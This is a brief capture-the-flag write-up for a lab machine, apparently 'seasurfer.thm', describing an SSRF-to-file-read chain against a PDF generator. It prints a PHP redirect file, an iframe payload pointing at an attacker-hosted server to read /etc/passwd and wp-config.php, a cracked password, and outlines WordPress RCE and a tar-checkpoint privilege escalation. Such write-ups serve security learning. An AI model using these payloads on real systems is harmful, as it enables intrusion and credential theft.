 ssrf->lfi
22,80 open, checking headers show domain name, seasurfer.thm which is a wordpress site
checking blogs and comments we see a subdomain internal.seasurfer.thm 
which is vulnerable to a lot of stuff including ssrf, we can't read files directly with
<iframe src=file:///etc/passwd> but we can do ssrf which leads to an internal request which can
read files, so setup:

we create a file called file.php with the contents: <?php header('location:file://'.$_REQUEST['url']); ?>
we serve this file on a php server with: `php -S 0.0.0.0:80`

we make the ssrf which requests this file which in turn requests the in internal file we want to read so
in the internal.seasurfer.thm param inputs we use:
<iframe src="http://10.17.17.11/file.php?url=/etc/passwd"> which reads the file and prints it in the pdf.

we read the wordpress conf file under `/var/www/wordpress/wp-config.php` which gives us db creds.

enuming the base seasurfer site shows us `/adminer` which gives database access with creds from the wp-config file.
we read the user hash, crack it locally to get the wordpress user kyle password `jenny4ever` and do wordpress rce to 
get a shell.

for user, there's a cron running which uses tar so it's a standard tar checkpoint privesc to user.

